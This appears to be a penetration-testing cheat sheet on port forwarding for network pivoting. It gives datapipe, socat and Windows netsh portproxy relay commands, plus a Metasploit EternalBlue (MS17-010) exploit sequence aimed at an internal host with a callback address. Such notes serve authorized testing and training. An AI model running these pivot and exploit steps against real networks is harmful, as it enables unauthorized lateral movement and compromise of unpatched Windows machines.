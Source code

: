 Port forwarding
===
🔙 [MENU README](./Pivot%20&%20Double%20Pivot.md)


# Datapipe
> single bin, simple function

![](./Datapipe.png)
```bash
# https://github.com/bovine/datapipe/blob/master/datapipe.c
# change Line 80: 20 to 999
gcc datapipe.c –o datapipe
```
```bash
datapipe 0.0.0.0 135 192.168.0.7 135
datapipe 0.0.0.0 445 192.168.0.7 445
datapipe 0.0.0.0 4444 172.19.19.18 4444
```
MS17_010
```bash
search ms17_010
use exploit/windows/smb/ms17_010_eternalblue
show options
set rhosts 172.19.19.70
set lhost 192.168.0.70
check
exploit
```

# Socat
> full function, fat, support UDP

```bash
socat tcp-listen:80,fork tcp:<IP>:80
socat udp-recvfrom:161,fork udp-sendto:<IP>:161
socat udp-recvfrom:53,fork udp-sendto:<IP>:53
socat udp-recvfrom:123,fork udp-sendto:<IP>:123

```

# Portproxy
> Windows netsh built-in
```bash
netsh interface portproxy add v4tov4 80 <IP> 80
netsh interface portproxy show v4tov4
netsh interface portproxy delete v4tov4 80 <IP> 80
```